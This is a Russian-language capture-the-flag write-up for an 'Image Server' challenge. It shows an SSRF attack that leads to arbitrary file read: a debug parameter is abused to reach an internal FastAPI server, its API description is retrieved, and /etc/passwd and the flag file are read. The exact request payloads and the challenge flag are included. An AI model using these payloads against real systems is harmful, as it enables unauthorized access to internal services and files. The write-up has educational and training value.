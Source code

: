 # Image Server
При открытии страницы происходит запрос к `/api/image?img_id=5`. Повторив этот запрос без значения параметра получаем ошибку, в которой раскрываются значения переменных окружения, среди которых интересные это IMG_SERVER=imghost:8080 и OLD_SERVER=oldserver:8000.
А так же форматная строка подготавливающая запрос 
``` python
r = requests.get(f'http://{request.args.get("__host_debug") if "__host_debug" in request.args else IMG_SERVER}/get_image/{int(img_id)}')
```
из которой можем узнать что проверяется еще один параметр `__host_debug` который подставляется в запрос, если указан.

В burp repeater подставляем значение OLD_SERVER в значение параметра `__host_debug` и добавляем символ решетки закодированный в URL в конце параметра, чтобы отбросить `/get_image/<id>`.

Запрос - `/api/image?img_id=0&__host_debug=oldserver:8000/%23`
Ответ - `{"message":"OK","RUN_WITH":"FastAPI"}`.

Из документации узнаем что есть `/docs`
Запрос - `/api/image?img_id=0&__host_debug=oldserver:8000/docs%23`
Видим что javascript на этой странице запрашивает `/openapi.json`.

Запрос - `/api/image?img_id=0&__host_debug=oldserver:8000/openapi.json%23`
В ответе получаем JSON с описанием api. Из него узнаем что есть `/test_endpoint` который может принимать строковый параметр `fname` и возвращает JSON с параметром `content` и содержимым файла.

Запрос - `/api/image?img_id=0&__host_debug=oldserver:8000/test_endpoint?fname=/etc/passwd%23`
В ответе узнаем список пользователей, в данном случае есть каталог `/home/flag`.

Запрос - `/api/image?img_id=0&__host_debug=oldserver:8000/test_endpoint?fname=/home/flag/flag.txt%23`.
Получаем содержимое файла flag.txt 

Флаг - deteact{4a4db41eacd762e1b0bc2f303326df91}